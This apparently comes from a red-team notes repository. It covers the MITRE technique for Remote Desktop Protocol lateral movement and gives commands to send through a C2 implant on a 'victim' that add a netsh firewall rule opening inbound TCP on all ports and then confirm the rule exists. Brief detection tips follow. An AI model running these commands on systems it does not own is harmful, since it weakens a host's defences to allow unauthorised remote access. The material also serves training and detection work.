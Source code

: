 # [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/)

## Exploit syntax:

```powershell
# Run the following command in your posh implant to your victim:

sharpps netsh.exe advfirewall firewall add rule name="enablerdp" dir=in action=allow protocol=tcp localport=any enable=yes

# Verify the
firewall rule has been created:
sharpps netsh.exe advfirewall firewall show rule status=enabled name=enablerdp 

```
---

* Note, add syntax for xfreerdp once added to parrot to utilize newly opened firewall on victim## Detection Technique:

---

## Detections
* Investigate all remote desktop connections.
* Investigate all event code 4624 ( remote logons )

---

## Resouces
